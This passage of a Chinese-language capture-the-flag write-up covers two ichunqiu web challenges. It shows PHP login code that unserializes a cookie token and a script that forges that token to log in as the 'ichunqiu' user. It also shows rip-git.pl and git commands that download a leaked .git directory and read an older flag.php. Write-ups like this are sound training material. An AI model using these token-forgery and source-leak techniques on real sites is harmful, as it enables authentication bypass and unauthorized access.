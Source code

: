 ```php
    if(isset($requset['token']))
    {
        $login = unserialize(gzuncompress(base64_decode($requset['token'])));
        $db = new db();
        $row = $db->select('user=\''.mysql_real_escape_string($login['user']).'\'');
        if($login['user'] ==='ichunqiu')
        {
            echo $flag;
        }else if($row['pass'] !== $login['pass']){
            echo 'unserialize injection!!';
        }else{
            echo "(╯‵□′)╯︵┴─┴ ";
        }
    }else{
        header('Location: index.php?error=1');
    }

?>
```

这里需要以 `ichunqiu` 登录，关键就在于那个反序列化的过程。而且，`array_merge` 合并时，遇到相同的键取最后的那个值。

写个脚本生成需要的 `token`，然后放在 cookie 里发送就好了。

```php
<?php
  $a = array('user' => 'ichunqiu');
  echo base64_encode(gzcompress(serialize($a)));
?>
```

## Backdoor

扫目录发现 `.git` 泄露。上 GitHack 把 `.git` 下载下来，然后发现需要回退。

值得记录的是 GitHack 好像没能把 `.git` 下下来，只能下载所有文件，因此我使用了 `dvcs ripper` 这个工具：

```bash
./rip-git.pl -v -u http://1355bb65468a451b9487c15dba117690cff7627b879e42f2.
changame.ichunqiu.com/Challenges/.git/
```

访问 `/Challenges/.git/logs/HEAD` 可以查看提交记录，或者也可以 `git log` 查看。随后回退到之前的版本：

```bash
git reset --hard 12c6ddf4af0a5542c1cf6a9ab19b4231c1fd9a88
cat flag.php
```

这时可以看到，`flag.php` 内容变为：

```php
<?php
echo "flag{true_flag_is_in_the_b4ckdo0r.php}";
?>
```

